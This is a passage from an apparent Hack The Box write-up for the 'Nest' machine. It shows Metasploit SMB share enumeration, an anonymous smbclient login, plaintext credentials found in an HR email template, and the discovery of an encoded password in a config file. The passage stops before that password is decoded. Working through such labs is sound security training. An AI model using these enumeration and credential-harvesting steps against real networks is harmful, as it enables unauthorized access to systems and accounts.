     :::text
    msf5 > use auxiliary/scanner/smb/smb_enumshares
    msf5 auxiliary(scanner/smb/smb_enumshares) > set RHOSTS 10.10.10.178
    RHOSTS => 10.10.10.178
    msf5 auxiliary(scanner/smb/smb_enumshares) > run

    [+] 10.10.10.178:445      - ADMIN$ - (DISK) Remote Admin
    [+] 10.10.10.178:445      - C$ - (DISK) Default share
    [+] 10.10.10.178:445      - Data - (DISK)
    [+] 10.10.10.178:445      - IPC$ - (IPC) Remote IPC
    [+] 10.10.10.178:445      - Secure$ - (DISK)
    [+] 10.10.10.178:445      - Users - (DISK)
    [*] 10.10.10.178:         - Scanned 1 of 1 hosts (100% complete)

We connect to this share anonymously and start to enumerate the folder and files
on the share. We quickly find a "Welcome Email" in the HR templates folder.

    :::text
    # smbclient //10.10.10.178/Data -U " "%" "
    Try "help" to get a list of possible commands.
    smb: \> cd Shared\Templates\HR
    smb: \Shared\Templates\HR\> mget "Welcome Email.txt"
    Get file Welcome Email.txt? y
    getting file \Shared\Templates\HR\Welcome Email.txt of size 425 as Welcome Email.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)

This template email contain the username "TempUser" and its password.

    :::text
    # cat Welcome\ Email.txt
    We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

    You will find your home folder in the following location:
    \\HTB-NEST\Users\<USERNAME>

    If you have any issues accessing specific services or workstations, please inform the
    IT department and use the credentials below until all systems have been set up for you.

    Username: TempUser
    Password: welcome2019

    Thank you
    HR

## SBM as TempUser

We can then connect to the SMB share using our "TempUser". We found a lot of
configuration files. The `RU_config.xml` contain what seems to be a base64
password for the c.smith user. We try to decode it using `base64 -d` but the result is not printable
characters.
